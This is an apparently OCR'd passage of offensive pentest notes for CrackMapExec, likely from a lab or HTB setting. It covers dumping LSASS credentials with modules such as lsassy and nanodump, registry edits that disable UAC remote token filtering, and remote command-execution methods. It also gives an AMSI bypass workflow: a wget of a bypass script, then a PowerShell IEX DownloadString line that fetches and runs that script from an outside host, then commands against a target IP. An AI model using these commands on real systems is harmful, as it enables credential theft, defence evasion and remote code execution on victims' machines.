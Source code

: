 - Modules
  - cme smb **-M lsassy**: win password in cleartext or hash ntlm aes256/aes128
    - [Extract credentials from lsass remotely](https://en.hackndo.com/remote-lsass-dump-passwords/)
  - cme smb **-M procdump**: create lsass process dump and pypykatz do extract credentials
  - cme smb **-M handlekatz**: [more info](https://github.com/codewhitesec/HandleKatz)
  - cme smb **-M nanodump**: minidump of LSASS process [more info](https://github.com/fortra/nanodump)

## Commands & C2
- UAC enabled
  - RID 500
  - LocalAccountTokenFilterPolicy:1
  - FilterAdministratorToken:0
  - cme smb --local-auth -x "reg add 
HKLM\SOFTWARE\MICROSOFT\WINDOWS\CURRENTVERSION\POLICIES\SYSTEM /V LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f"

```
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\LocalAccountTokenFilterPolicy
HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\FilterAdministratorToken
```
- cme smb -x/-X "Command"
  - --exec-method:
    - wmiexec: with WMI
    - ataexec: schedule task
    - smbexec: as service
    - mmcexec: Microsoft Management Cosole
  - -X: powershell: AMSI bypass + obfuscate + execute cmd
    - --amsi-bypass /path/to/file
  - -x: cmd

```
# AMSI: Antimalware Scan Interface

# Download file with Modified Amsi ScanBuffer Patch
wget https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/shantanukhande-amsi.ps1 -q

## bad, too long
crackmapexec smb 10.129.204.178 -u USER -p PASS -X '$PSVErsionTable' --amsi-bypass shantanukhande-amsi.ps1

# Create Powershell script that downloads+execute + webserver
echo "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.33/shantanukhande-amsi.ps1');" > amsibypass.txt

# run cme
crackmapexec smb 10.129.204.178 -u USER -p PASS -X '$PSVErsionTable' --amsi-bypass amsibypass.txt
```
- WinRM
  - members of: adm, remote management users, powershell remoting permissions
  - cmw winrm -x/-X
    - --port PORT
    - --ssl
    - --ignore-ssl-cert
  
